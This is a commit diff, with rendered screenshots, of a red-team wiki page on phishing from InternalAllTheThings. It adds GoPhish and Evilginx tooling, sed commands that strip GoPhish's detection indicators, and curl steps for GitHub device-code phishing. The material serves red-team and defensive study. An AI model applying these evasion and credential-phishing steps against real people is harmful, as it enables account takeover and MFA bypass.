

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/access/phishing.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Clickfix + Phishing

````diff
--- a/docs/redteam/access/phishing.md
+++ b/docs/redteam/access/phishing.md
@@ -1,20 +1,85 @@
 # Phishing
 
-> TODO
+> Phishing is a cybersecurity attack where malicious actors impersonate legitimate organizations (like banks, social media platforms, or email providers) to trick people into revealing sensitive information such as passwords, credit card numbers, or personal data.
 
-## Opsec fail
+## Opsec Fails
 
-* wildcard
+* **Reusing IPs/Domains**: Using the same IP address or domain across multiple campaigns or malware families.
+* **No Domain Privacy**: WHOIS records exposing registrant info (name, email, phone).
+* **Same Registrant Email**: Reusing the same email address across domains.
+* **Unrotated SSL Certificates**: Self-signed or identical certificates reused across phishing sites.
 
 ## GoPhish
 
+* [gophish/gophish](https://github.com/gophish/gophish) - Open-Source Phishing Toolkit
+* [kgretzky/gophish/](https://github.com/kgretzky/gophish/) - Gophish integration with Evilginx 3.3
+* [puzzlepeaches/sneaky_gophish](https://github.com/puzzlepeaches/sneaky_gophish) - Hiding GoPhish from the boys in blue
+
+```ps1
+git clone https://github.com/gophish/gophish.git
+go build
+```
+
 ### IOC
 
-*
+* `X-Gophish-Contact` and `X-Gophish-Signature`
+
+    ```ps1
+    find . -type f -exec sed -i.bak 's/X-Gophish-Contact/X-Contact/g' {} +
+    sed -i 's/X-Gophish-Contact/X-Contact/g' models/email_request_test.go
+    sed -i 's/X-Gophish-Contact/X-Contact/g' models/maillog.go
+    sed -i 's/X-Gophish-Contact/X-Contact/g' models/maillog_test.go
+    sed -i 's/X-Gophish-Contact/X-Contact/g' models/email_request.go
+
+    find . -type f -exec sed -i.bak 's/X-Gophish-Signature/X-Signature/g' {} +
+    sed -i 's/X-Gophish-Signature/X-Signature/g' webhook/webhook.go
+    ```
+
+* Default server name
+
+    ```ps1
+    sed -i 's/const ServerName = "gophish"/const ServerName = "IGNORE"/' config/config.go
+    ```
+
+* Default `rid` parameter
+
+    ```ps1
+    sed -i 's/const RecipientParameter = "rid"/const RecipientParameter = "keyname"/g' models/campaign.go
+    ```
 
 ## Evilginx
+
+* [kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) - Standalone man-in-the-middle attack framework used for phishing login credentials along with session cookies, allowing for the bypass of 2-factor authentication
+* [evilginxpro](https://evilginx.com/) - The phishing framework for red teams
+
+```ps1
+# List Available Phishlets
+phishlets
+
+# Enable a Phishlet
+phishlets enable <phishlet_name>
+
+# Disable a Phishlet
+phishlets disable <phishlet_name>
+```
+
+## Device Code Phishing
+
+* Github
+
+    ```ps1
+    curl -X POST https://github.com/login/device/code \
+    -H "Accept: application/json" \
+    -d "client_id=01ab8ac9400c4e429b23&scope=user+repo+workflow"
+
+    curl -X POST https://github.com/login/oauth/access_token \
+    -H "Accept: application/json" \
+    -d "client_id=01ab8ac9400c4e429b23&device_code=be9<code_from_earlier>&&grant_type=urn%3Aietf%3Aparams%3Aoauth%3Agrant-type%3Adevice_code" -k | jq
+    ```
 
 ## References
 
 * [A Smooth Sea Never Made a Skilled Phisherman - Kuba Gretzky - 8 july 2024](https://youtu.be/Nh99d3YnpI4)
+* [Introducing: GitHub Device Code Phishing - John Stawinski, Mason Davis, Matt Jackoski - June 12, 2025](https://www.praetorian.com/blog/introducing-github-device-code-phishing/)
+* [Never had a bad day phishing. How to set up GoPhish to evade security controls - Nicholas Anastasi - Jun 30, 2021](https://www.sprocketsecurity.com/blog/never-had-a-bad-day-phishing-how-to-set-up-gophish-to-evade-security-controls)
 * [Unraveling and Countering Adversary-in-the-Middle Phishing Attacks - Pawel Partyka - 8 july 2024](https://youtu.be/-W-LxcbUxI4)
````
Also changed, not shown: docs/active-directory/ad-adds-ntds-dumping.md (+11 -2 lines), docs/redteam/access/clickfix.md (added, +24 -0 lines).
